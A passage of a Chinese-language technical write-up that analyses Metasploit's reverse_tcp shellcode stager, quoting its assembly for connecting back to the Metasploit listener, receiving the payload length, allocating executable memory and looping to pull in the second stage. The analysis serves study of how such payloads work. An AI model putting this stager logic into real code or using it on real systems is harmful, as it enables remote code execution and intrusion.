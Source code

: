 接着又调用了connect函数链接metasploit，如果eax中的值为0那么代表链接成功.

```c
push 16 ; length of the sockaddr struct 
push esi ; pointer to the sockaddr struct 
push edi ; the socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'connect')} 
call ebp ; connect( s, &sockaddr, 16 ); 
test eax,eax ; non-zero means a failure 
jz connected 
handle_connect_failure: 
    ; decrement our attempt count and try again 
    dec dword [esi+8] 
    jnz try_connect
```

asm\_reverse\_tcp函数中的汇编，大致有以下功能：加载socket相关dll，创建socket，绑定ip和端口，链接metasploit。就是做一些接收stage前的工作，为调用asm\_block\_recv接收stage做准备。

asm\_block\_recv函数
------------------

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-9a009cabce32bf87ceff4dcc04e486d93daa8db1.png)

首先调用recv函数接收msf发送过来的4字节数据，这4字节数据代表了即将发送过来的载荷的总大小。

```c
push 0 ; flags 
push 4 ; length = sizeof( DWORD ); 
push esi ; the 4 byte buffer on the stack to hold the second stage length 
push edi ; the saved socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'recv')} 
call ebp ; recv( s, &dwLength, 4, 0 );
```

首先压入了VirtualAlloc函数的参数，接着在第6行使用block\_api\_hash函数得到了VirtualAlloc函数的地址。

接着调用了VirtualAlloc函数用来申请一块具有RWX权限的内存空间，空间的大小是msf发送过来的四字节数据。

```c
mov esi,[esi] ; dereference the pointer to the second stage length 
push 0x40 ; PAGE_EXECUTE_READWRITE 
push 0x1000 ; MEM_COMMIT 
push esi ; push the newly recieved second stage length. 
push 0 ; NULL as we dont care where the allocation is. 
push #{Rex::Text.block_api_hash('kernel32.dll', 'VirtualAlloc')} 
call ebp ; VirtualAlloc( NULL, dwLength, MEM_COMMIT, PAGE_EXECUTE_READWRITE ); 
; Receive the second stage and execute it... 
xchg ebx, eax ; ebx = our new memory address for the new stage 
push ebx ; push the address of the new stage so we can return into it
```

在第7行又调用了recv函数，接收msf发送过来的载荷，通过push压入的参数可以知道，是将接收到的载荷放到了刚刚申请的内存中。

需要注意的是，msf并不是一下子就把整个载荷发送了过来，而是把载荷分成了很多份分开发送的，所以下面通过cmp指令来判断是否接收完成，这里判断有没有接收完成的依据是通过，载荷的大小-接收的字节数来循环接收的。
